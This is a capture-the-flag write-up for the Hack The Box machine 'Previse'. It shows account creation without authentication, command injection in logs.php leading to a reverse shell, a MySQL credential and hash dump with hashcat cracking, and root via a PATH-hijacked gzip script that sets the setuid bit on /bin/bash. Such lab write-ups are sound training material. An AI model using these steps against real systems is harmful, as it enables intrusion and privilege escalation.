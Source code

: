 # HACKTHEBOX: Previse

*Previse* was an easy difficulty Linux box vulnerable to IDOR, which allows any unauthenticated attacker to create an account by accessing `accounts.php`, which loads and then the redirects to `login.php`. After creating an account on `accounts.php`, the attacker can download the web app's source code to retrieve a MySQL database password, and discover command injection in `logs.php`.
After exploiting command injection to gain access to the system, reading the MySQL database exposes the password hash of the user *m4lwhere* which can be easily cracked with rockyou.txt.
The user *m4lwhere* can run the command `sudo /opt/scripts/access_backup.sh` as root without a password it calls `gzip` with a relative path, so creating a shell script called `gzip` and adding it to $PATH lets the user run the `gzip` shell script as root.

The script [previse.go](previse.go) exploits the initial command injection vulnerability in the previse web app.

## Recon and Enumeration

Running an `nmap` scan shows there is an HTTP server on port 80
![nmap](screenshots/nmap.png)

Visiting the box in a web browser brings the visitor to `http://10.10.11.104/login.php`. We don't have an account, so we need to find out how to make one.
![login](screenshots/login.png)

Note that the site is running php. Run a ffuf scan to search for interesting php files.
```
$ ffuf -w ~/Wordlists/directories.txt -u "http://10.10.11.104/FUZZ.php" -c | tee previse_php.ffuf
```
![ffuf](screenshots/ffuf.png)

Send a login request to `login.php`, and resend the POST request to `accounts.php`. Even though we are not logged in yet, we can access the `accounts.php` page. We can read the contents of the `accounts.php` page because it is served, and then afterwards it redirects to `login.php`.
![account](screenshots/account_attempt.png)

We need to include `confirm` with the form to create an account. Any unauthenticated user can send the following post request to `http://10.10.11.104/accounts.php`. In this request, a user is created with credentials `alterego:alterego`
![creation](screenshots/account_creation.png)

After authenticating with `alterego:alterego` and visiting `http://10.10.11.104/files.php` the attacker can download a copy of the source code titled `siteBackup.zip`.
![siteBackup](screenshots/sitebackup.png)

Dangerous PHP functions can be grep'd. The following snippet of source code comes from `logs.php`. It appears that there is no input validation or sanitization of the `delim` parameter, and may be vulnerable to remote code execution.
![logs](screenshots/logs_php.png)

## Exploitation and user.txt
Running `nc -lvnp 9001` starts a netcat listener. Sending the following post request to `logs.php` abuses remote code execution to gain a reverse shell.
![payload](screenshots/payload.png)
![wwwdata](screenshots/wwwdata.png)

MySQL credentials are discovered in `config.php`
![mysql password](screenshots/mysql_password.png)

Access the mysqldb using the creds `root:mySQL_p@ssw0rd!:)`
```
www-data@previse:/var/www/html$ mysql --user='root' -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 114738
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
+----+-------------+------------------------------------+---------------------+
| id | username    | password                           | created_at          |
+----+-------------+------------------------------------+---------------------+
|  1 | m4lwhere    | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | alterego    | $1$🧂llol$y935oNSqbqSNyJy3Y/j1Q0 | 2021-12-02 23:41:38 |
+----+-------------+------------------------------------+---------------------+
6 rows in set (0.00 sec)

mysql>
```

Put m4lwhere's password hash into a file called `hash.txt` and use hashcat to crack the hash with the rockyou wordlist.
```
hashcat -a 0 -m 500 hash.txt ~/Wordlists/rockyou.txt
```
Hashcat cracks the hash, with the password `ilovecody112235!`. Back in the reverse shell, log in with the credentials `m4lwhere:ilovecody112235!` and capture **user.txt**.
```
www-data@previse:/var/www/html$ su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:/var/www/html$ cd  
m4lwhere@previse:~$ ls -l
total 4
-r-------- 1 m4lwhere m4lwhere 33 Sep 23 04:31 user.txt
m4lwhere@previse:~$
```

## Privilege Escalation and root.txt
Running `sudo -l` lists the commands the user is allowed to run as root.
![sudo list](screenshots/sudo_list.png)

Examine the contents of `/opt/scripts/access_backup.sh`
```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

This script calls `gzip` using the relative path, rather than the absolute path of `/bin/gzip`. Create the script `/home/m4lwhere/scripts/gzip` to set the suid execute bit on /bin/bash to allow user m4lwhere to run `/bin/bash` as root:
```
#!/bin/bash
chmod +sx /bin/bash
```

Add the directory `/home/m4lwhere/scripts` to path to abuse the relative path call in `/opt/scripts/access_backup.sh`. Then finally, escalate privileges.
![privesc](screenshots/privesc.png)

